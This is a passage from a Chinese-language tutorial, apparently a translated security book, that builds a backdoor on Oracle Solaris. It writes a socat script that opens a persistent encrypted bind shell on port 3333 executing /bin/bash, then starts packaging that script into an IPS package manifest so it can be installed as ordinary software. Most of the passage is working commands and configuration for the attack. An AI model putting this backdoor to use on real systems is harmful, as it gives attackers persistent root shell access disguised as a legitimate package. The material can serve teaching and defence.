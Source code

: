 在同一台机器（客户端）上，我们创建一个脚本，在 `3333` 端口以持久监听模式启动 socat 工具：

```
root@solaris11:/tmp/backdoor# vi backdoor_exec.sh
#!/bin/bash
socat OPENSSL-LISTEN:3333,reuseaddr,fork,cert=solaris11.pem,cafile=solaris11.crt EXEC:/bin/bash
```

尽管前面的脚本非常简单，但我们需要注意以下已部署的选项：

+   **LISTEN:3333**: 这是 socat 监听的端口

+   **reuseaddr**: 这允许其他套接字绑定到一个地址，即使本地端口（`3333`）已经被 socat 使用

+   **fork**: 建立连接后，这将通过子进程处理其通道，并保持父进程尝试生成更多连接，无论是通过监听还是通过循环连接

+   **cert**: 这是我们制作的数字证书

+   **cafile**: 这指定了包含受信任（根）认证证书的文件

+   **EXEC**：这将被执行

执行以下命令使其可执行：

```
root@solaris11:/tmp/backdoor# chmod u+x backdoor_exec.sh

```

现在，socat 配置已经完成，接下来的任务是在 Oracle Solaris 域中执行。在第一步中，我们创建一个清单文件，该文件用于创建 IPS 包，因为这个清单文件包含了我们的后门 IPS 包所需的所有依赖项。后门清单文件将分部分创建：

```
root@solaris11:/tmp# pkgsend generate backdoor > /tmp/backdoor_manifest.level1
root@solaris11:/tmp# more /tmp/backdoor_manifest.level1
file solaris11.key group=bin mode=0644 owner=root path=solaris11.key
file solaris11.crt group=bin mode=0644 owner=root path=solaris11.crt
file solaris11.pem group=bin mode=0644 owner=root path=solaris11.pem
file backdoor_exec.sh group=bin mode=0744 owner=root path=backdoor_exec.sh
```

清单文件中的内容并不复杂，并且有一些关键词（操作）可能会很有趣。此外，语法也很简单：

```
<action_name> <attribute1=value1> <attribute2=value2> ...
```

以下是其中一些操作：

+   **file**：这指定了包安装的文件

+   **set**：这指定了诸如名称和描述等信息

+   **dir**：这是包安装的目录

+   **hardlink**：指向硬链接

+   **link**：这确定了符号链接

+   **license**：这确定了与包绑定的许可证类型

+   **depend**：列出了该包依赖的其他软件或工具

